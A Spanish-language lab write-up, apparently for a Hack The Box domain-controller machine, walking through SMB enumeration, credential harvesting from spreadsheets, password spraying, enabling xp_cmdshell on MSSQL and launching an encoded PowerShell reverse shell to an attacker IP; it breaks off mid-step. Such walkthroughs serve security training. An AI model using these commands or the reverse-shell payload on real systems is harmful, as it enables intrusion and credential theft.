


Se nos proporcionan las siguientes credenciales en la simulación de un pentesting real:  rose:KxEPkKe6R8su


Iniciamos primeramente con la fase de reconocimiento: 

```bash 
┌──(kali㉿kali)-[~]
└─$ ping -c 1 10.10.11.51
PING 10.10.11.51 (10.10.11.51) 56(84) bytes of data.
64 bytes from 10.10.11.51: icmp_seq=1 ttl=127 time=98.0 ms

--- 10.10.11.51 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 97.975/97.975/97.975/0.000 ms

┌──(kali㉿kali)-[~]
└─$ ports=$(nmap -p- --open -sS -T5 -n -Pn 10.10.11.51 | awk '/^[0-9]+\/tcp/ {split($1,a,"/"); print a[1]}' | paste -sd,)

┌──(kali㉿kali)-[~]
└─$ echo $ports
53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389,47001,49664,49665,49666,49667,49689,49690,49691,49704,49719,49740,49803

┌──(kali㉿kali)-[~/labs-hack/two]
└─$ nmap -p$ports 10.10.11.51 -sCV -v -oN escapetwo_scan 
```
Vemos bastantes puertos relacionados con un Windows Domain Controller (Controlador de Dominio de Windows) que es un servidor central que administra la seguridad, autenticación y acceso de usuarios a una red de Windows. 

Hacemos un reconocimiento del dominio con SMB y netexec: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ netexec smb 10.10.11.51                          
[*] Initializing SMB protocol database
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
```

Agregamos el dominio a nuestro /etc/hosts

```bash 
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ echo "10.10.11.51 DC01.sequel.htb sequel.htb" | sudo tee -a /etc/hosts
[sudo] password for kali: 
10.10.11.51 DC01.sequel.htb sequel.htb
```

Probamos que las credenciales son válidas: 
```bash 
┌──(kali㉿kali)-[~/labs-hack/two]
└─$  netexec smb dc01.sequel.htb -u rose -p 'KxEPkKe6R8su'
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.51     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su
```

No funciona con evilwinrm: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ netexec winrm dc01.sequel.htb -u rose -p 'KxEPkKe6R8su'
WINRM       10.10.11.51     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
WINRM       10.10.11.51     5985   DC01             [-] sequel.htb\rose:KxEPkKe6R8su
```

Probamos con MSSQL: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ /usr/share/doc/python3-impacket/examples/mssqlclient.py -windows-auth sequel.htb/rose:KxEPkKe6R8su@dc01.sequel.htb
Impacket v0.13.0.dev0+20241024.90011.835e1755 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (SEQUEL\rose  guest@master)> 
```

Pero no podemos hacer gran cosa con esto ni tampoco obtener mucha informaciòn, ya que rosa tiene el rol de guest:

```bash 
SQL (SEQUEL\rose  guest@master)> SELECT SYSTEM_USER AS CurrentLogin, USER_NAME() AS CurrentUser;
CurrentLogin   CurrentUser   
------------   -----------   
SEQUEL\rose    guest
```

```bash 
SQL (SEQUEL\rose  guest@master)> select name from sys.databases;
name     
------   
master   

tempdb   

model    

msdb
```

Si no podríamos intentar ejecutar comando como `xp_cmdshell whoami;`, o `enable_xp_cmdshell` para intentar abrir una shell. 

Nos movemos a SMB: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ netexec smb dc01.sequel.htb -u rose -p 'KxEPkKe6R8su' --shares
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.51     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
SMB         10.10.11.51     445    DC01             [*] Enumerated shares
SMB         10.10.11.51     445    DC01             Share           Permissions     Remark
SMB         10.10.11.51     445    DC01             -----           -----------     ------
SMB         10.10.11.51     445    DC01             Accounting Department READ            
SMB         10.10.11.51     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.51     445    DC01             C$                              Default share
SMB         10.10.11.51     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.51     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.51     445    DC01             SYSVOL          READ            Logon server share 
SMB         10.10.11.51     445    DC01             Users           READ            
```

Nos conectamos al recurso de `Users` pero no encontramos nada interesante aqui:

```bash 
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ smbclient //dc01.sequel.htb/users -U rose --password KxEPkKe6R8su
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sun Jun  9 09:42:11 2024
  ..                                 DR        0  Sun Jun  9 09:42:11 2024
  Default                           DHR        0  Sun Jun  9 07:17:29 2024
  desktop.ini                       AHS      174  Sat Sep 15 03:16:48 2018

                6367231 blocks of size 4096. 910872 blocks available
smb: \> cd Default
smb: \Default\> ls
  .                                 DHR        0  Sun Jun  9 07:17:29 2024
  ..                                DHR        0  Sun Jun  9 07:17:29 2024
  AppData                            DH        0  Sat Sep 15 03:19:00 2018
  Desktop                            DR        0  Sat Sep 15 03:19:00 2018
  Documents                          DR        0  Sat Jun  8 21:29:57 2024
  Downloads                          DR        0  Sat Sep 15 03:19:00 2018
  Favorites                          DR        0  Sat Sep 15 03:19:00 2018
  Links                              DR        0  Sat Sep 15 03:19:00 2018
  Music                              DR        0  Sat Sep 15 03:19:00 2018
  NTUSER.DAT                          A   262144  Sat Jun  8 21:29:57 2024
  NTUSER.DAT.LOG1                   AHS    57344  Sat Sep 15 02:09:26 2018
  NTUSER.DAT.LOG2                   AHS        0  Sat Sep 15 02:09:26 2018
  NTUSER.DAT{1c3790b4-b8ad-11e8-aa21-e41d2d101530}.TM.blf    AHS    65536  Sat Jun  8 21:29:57 2024
  NTUSER.DAT{1c3790b4-b8ad-11e8-aa21-e41d2d101530}.TMContainer00000000000000000001.regtrans-ms    AHS   524288  Sat Jun  8 21:29:57 2024
  NTUSER.DAT{1c3790b4-b8ad-11e8-aa21-e41d2d101530}.TMContainer00000000000000000002.regtrans-ms    AHS   524288  Sat Jun  8 21:29:57 2024
  Pictures                           DR        0  Sat Sep 15 03:19:00 2018
  Saved Games                         D        0  Sat Sep 15 03:19:00 2018
  Videos                             DR        0  Sat Sep 15 03:19:00 2018

                6367231 blocks of size 4096. 910871 blocks available
```

En el recurso de `Account Department` si que encontramos algo más interesante:

```bash 
──(kali㉿kali)-[~/labs-hack/two]
└─$ smbclient //dc01.sequel.htb/'Accounting Department' -U rose --password KxEPkKe6R8su
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jun  9 06:52:21 2024
  ..                                  D        0  Sun Jun  9 06:52:21 2024
  accounting_2024.xlsx                A    10217  Sun Jun  9 06:14:49 2024
  accounts.xlsx                       A     6780  Sun Jun  9 06:52:07 2024

                6367231 blocks of size 4096. 910197 blocks available
```

Descargamos ambos: 

```bash 
smb: \> prompt off
smb: \> mget *
getting file \accounting_2024.xlsx of size 10217 as accounting_2024.xlsx (17.6 KiloBytes/sec) (average 17.6 KiloBytes/sec)
getting file \accounts.xlsx of size 6780 as accounts.xlsx (11.7 KiloBytes/sec) (average 14.7 KiloBytes/sec)
```

Parecen que son ficheros zip: 

```bash
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ file *.xlsx
accounting_2024.xlsx: Zip archive data, made by v4.5, extract using at least v2.0, last modified Jan 01 1980 00:00:00, uncompressed size 1284, method=deflate
accounts.xlsx:        Zip archive data, made by v2.0, extract using at least v2.0, last modified Jun 09 2024 10:47:44, uncompressed size 681, method=deflate
```

Revisamos su contenido: 

```bash
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ unzip accounts.xlsx -d accounts 
Archive:  accounts.xlsx
file #1:  bad zipfile offset (local header sig):  0
  inflating: accounts/xl/workbook.xml  
  inflating: accounts/xl/theme/theme1.xml  
  inflating: accounts/xl/styles.xml  
  inflating: accounts/xl/worksheets/_rels/sheet1.xml.rels  
  inflating: accounts/xl/worksheets/sheet1.xml  
  inflating: accounts/xl/sharedStrings.xml  
  inflating: accounts/_rels/.rels    
  inflating: accounts/docProps/core.xml  
  inflating: accounts/docProps/app.xml  
  inflating: accounts/docProps/custom.xml  
  inflating: accounts/[Content_Types].xml  
```

Revisando los ficheros vemos que `sharedstrings.xml` contiene lo que parecen ser contraseñas: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ cat accounts/xl/sharedStrings.xml 
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="25" uniqueCount="24"><si><t xml:space="preserve">First Name</t></si><si><t xml:space="preserve">Last Name</t></si><si><t xml:space="preserve">Email</t></si><si><t xml:space="preserve">Username</t></si><si><t xml:space="preserve">Password</t></si><si><t xml:space="preserve">Angela</t></si><si><t xml:space="preserve">Martin</t></si><si><t xml:space="preserve">angela@sequel.htb</t></si><si><t xml:space="preserve">angela</t></si><si><t xml:space="preserve">0fwz7Q4mSpurIt99</t></si><si><t xml:space="preserve">Oscar</t></si><si><t xml:space="preserve">Martinez</t></si><si><t xml:space="preserve">oscar@sequel.htb</t></si><si><t xml:space="preserve">oscar</t></si><si><t xml:space="preserve">86LxLBMgEWaKUnBG</t></si><si><t xml:space="preserve">Kevin</t></si><si><t xml:space="preserve">Malone</t></si><si><t xml:space="preserve">kevin@sequel.htb</t></si><si><t xml:space="preserve">kevin</t></si><si><t xml:space="preserve">Md9Wlq1E5bZnVDVo</t></si><si><t xml:space="preserve">NULL</t></si><si><t xml:space="preserve">sa@sequel.htb</t></si><si><t xml:space="preserve">sa</t></si><si><t xml:space="preserve">MSSQLP@ssw0rd!</t></si></sst> 
```

La idea es reparar los ficheros, podemos hacerlo de dos formas: 

### Opción 1: Usar `xxd` + `sed` + `xxd -r`

1. **Extrae el hex** del archivo a texto:

```bash
xxd broken.xlsx > broken.hex
```

2. **Editamos manualmente las primeras líneas del archivo `broken.hex`** y cambia los **primeros 4 bytes** de:

   ```
   5048 0403  → 504B 0304
   ```

   Podemos hacer esto con `vim` o incluso con `sed`:

```bash
sed -i '1s/5048 0403/504B 0304/' broken.hex
```

3. **Reconstruimos el archivo corregido**:

```bash
xxd -r broken.hex fixed.xlsx
```

4. Intentamos abrir `fixed.xlsx` con LibreOffice.

### Opción 2: Usar `hexedit` (más visual)

1. Instalamos `hexedit`:

```bash
sudo apt install hexedit
```

2. Abrimos el archivo:

```bash
hexedit broken.xlsx
```

3. Navegamos al inicio (debe estar en `00000000`) y veremos algo como:

```
5048 0403
```

4. Reemplazamos **`48` por `4B`** y **`04` por `03`** para obtener:

```
504B 0304
```

5. Guardamos con `Ctrl + X` → luego `Y` → Enter.

6. Abrimos el archivo en LibreOffice o con un descompresor ZIP (como `unzip fixed.xlsx`) para validar.

```bash 
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ file accounting_2024.xlsx 
accounting_2024.xlsx: Zip archive data, made by v4.5, extract using at least v2.0, last modified Jan 01 1980 00:00:00, uncompressed size 1284, method=deflate
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ hexedit accounting_2024.xlsx 
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ file accounting_2024.xlsx
accounting_2024.xlsx: Microsoft Excel 2007+
```

Extraemos las contraseñas con bash script: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ cat accounts/xl/sharedStrings.xml | xmllint --xpath '//*[local-name()="t"]/text()' - | awk 'ORS=NR%5?" ":"\n"' | awk '{print $NF}' | tail -n 4 > passwords

┌──(kali㉿kali)-[~/labs-hack/two]
└─$ cat accounts/xl/sharedStrings.xml | xmllint --xpath '//*[local-name()="t"]/text()' - | awk 'ORS=NR%5?" ":"\n"' | awk '{print $(NF-1)}' | tail -n 4 > users    
```

Y probando solo nos funciona una: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ netexec smb dc01.sequel.htb -u users -p passwords --continue-on-success 
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\angela:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\oscar:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\kevin:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\sa:0fwz7Q4mSpurIt99 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\angela:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [+] sequel.htb\oscar:86LxLBMgEWaKUnBG 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\kevin:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\sa:86LxLBMgEWaKUnBG STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\angela:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\kevin:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\sa:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\angela:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\kevin:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\sa:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE 
``` 

Probando con la base de datos: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ netexec mssql dc01.sequel.htb -u users -p passwords --continue-on-success --local-auth
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [-] DC01\angela:0fwz7Q4mSpurIt99 (Login failed for user 'angela'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\oscar:0fwz7Q4mSpurIt99 (Login failed for user 'oscar'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\kevin:0fwz7Q4mSpurIt99 (Login failed for user 'kevin'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\sa:0fwz7Q4mSpurIt99 (Login failed for user 'sa'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\angela:86LxLBMgEWaKUnBG (Login failed for user 'angela'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\oscar:86LxLBMgEWaKUnBG (Login failed for user 'oscar'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\kevin:86LxLBMgEWaKUnBG (Login failed for user 'kevin'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\sa:86LxLBMgEWaKUnBG (Login failed for user 'sa'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\angela:Md9Wlq1E5bZnVDVo (Login failed for user 'angela'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\oscar:Md9Wlq1E5bZnVDVo (Login failed for user 'oscar'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\kevin:Md9Wlq1E5bZnVDVo (Login failed for user 'kevin'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\sa:Md9Wlq1E5bZnVDVo (Login failed for user 'sa'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\angela:MSSQLP@ssw0rd! (Login failed for user 'angela'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\oscar:MSSQLP@ssw0rd! (Login failed for user 'oscar'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\kevin:MSSQLP@ssw0rd! (Login failed for user 'kevin'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
```

Es la del administrador: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ /usr/share/doc/python3-impacket/examples/mssqlclient.py 'sequel.htb/sa:MSSQLP@ssw0rd!@dc01.sequel.htb'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (sa  dbo@master)>
```

Habilitamos cmdshell: 

```bash 
SQL (sa  dbo@master)> xp_cmdshell whoami
ERROR(DC01\SQLEXPRESS): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
SQL (sa  dbo@master)> enable_xp_cmdshell
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> xp_cmdshell whoami
output           
--------------   
sequel\sql_svc   

NULL             

SQL (sa  dbo@master)> 
```

Igual se puede hacer con `netexec`: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ netexec mssql dc01.sequel.htb -u sa -p 'MSSQLP@ssw0rd!' --local-auth -x whoami
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
MSSQL       10.10.11.51     1433   DC01             [+] Executed command via mssqlexec
MSSQL       10.10.11.51     1433   DC01             sequel\sql_svc
``` 

Ahora, nos copiamos una revershell con powershell, la editamos y nos la mandamos en el servidor: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ echo -n '$client = New-Object System.Net.Sockets.TCPClient("10.10.14.204",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' | iconv -f UTF-8 -t UTF-16LE | base64 -w 0 | xclip -selection clipboard
```

```bash 
SQL (sa  dbo@master)> enable_xp_cmdshell
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> xp_cmdshell powershell -EncodedCommand JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMgAwADQAIgAsADQANAAzACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
```

Y estamos en el sistema: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ rlwrap nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.14.204] from (UNKNOWN) [10.10.11.51] 50110

PS C:\Windows\system32> whoami
sequel\sql_svc
PS C:\Windows\system32> 
```

No tenemos privilegios interesantes, ni hay nada en nuestro directorio: 

```bash 
PS C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
PS C:\> ls


    Directory: C:\


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        11/5/2022  12:03 PM                PerfLogs                                                              
d-r---         1/4/2025   7:11 AM                Program Files                                                         
d-----         6/9/2024   8:37 AM                Program Files (x86)                                                   
d-----         6/8/2024   3:07 PM                SQL2019                                                               
d-r---         6/9/2024   6:42 AM                Users                                                                 
d-----         1/4/2025   8:10 AM                Windows                                                               


PS C:\> tree Users /f /a 
Folder PATH listing
Volume serial number is 3705-289D
C:\USERS
+---Administrator
+---Public
|   +---Accounting Department
|   |       accounting_2024.xlsx
|   |       accounts.xlsx
|   |       
|   +---Documents
|   +---Downloads
|   +---Music
|   +---Pictures
|   \---Videos
+---ryan
\---sql_svc
    +---Desktop
    +---Documents
    +---Downloads
    +---Favorites
    +---Links
    +---Music
    +---Pictures
    +---Saved Games
    \---Videos
```

Vemos un directorio interesante en la raiz: 

```bash 
PS C:\> ls


    Directory: C:\


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        11/5/2022  12:03 PM                PerfLogs                                                              
d-r---         1/4/2025   7:11 AM                Program Files                                                         
d-----         6/9/2024   8:37 AM                Program Files (x86)                                                   
d-----         6/8/2024   3:07 PM                SQL2019                                                               
d-r---         6/9/2024   6:42 AM                Users                                                                 
d-----         1/4/2025   8:10 AM                Windows

PS C:\SQL2019\ExpressAdv_ENU> ls


    Directory: C:\SQL2019\ExpressAdv_ENU


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----         6/8/2024   3:07 PM                1033_ENU_LP                                                           
d-----         6/8/2024   3:07 PM                redist                                                                
d-----         6/8/2024   3:07 PM                resources                                                             
d-----         6/8/2024   3:07 PM                x64                                                                   
-a----        9/24/2019  10:03 PM             45 AUTORUN.INF                                                           
-a----        9/24/2019  10:03 PM            788 MEDIAINFO.XML                                                         
-a----         6/8/2024   3:07 PM             16 PackageId.dat                                                         
-a----        9/24/2019  10:03 PM         142944 SETUP.EXE                                                             
-a----        9/24/2019  10:03 PM            486 SETUP.EXE.CONFIG                                                      
-a----         6/8/2024   3:07 PM            717 sql-Configuration.INI                                                 
-a----        9/24/2019  10:03 PM         249448 SQLSETUPBOOTSTRAPPER.DLL 
```

Hay una contraseña en sql-Configuration.INI: 

```bash 
PS C:\SQL2019\ExpressAdv_ENU> type sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False" 
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
PS C:\SQL2019\ExpressAdv_ENU>
```

**Esto parece ser  el directorio de instalación descomprimido de SQL Server Express 2019, usado para una instalación silenciosa (unattended).**
**El archivo sql-Configuration.INI es un archivo de configuración automática, utilizado cuando se hace una instalación con el parámetro ConfigurationFile=.**

El archivo define todas las opciones para instalar SQL Server sin interacción del usuario:
    - SQLSVCACCOUNT y SQLSVCPASSWORD: la cuenta y contraseña del servicio SQL.
    - SAPWD: contraseña del usuario sa (modo autenticación SQL).
    - SQLSYSADMINACCOUNTS: usuarios o grupos con permisos de sysadmin.

Añadimos a `ryan` a la lista de usuarios y probamos la contraseña:

```bash 
┌──(kali㉿kali)-[~/labs-hack/two]
└─$ netexec smb dc01.sequel.htb -u users -p 'WqSZAF6CysDQbGb3' --continue-on-success
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False) 
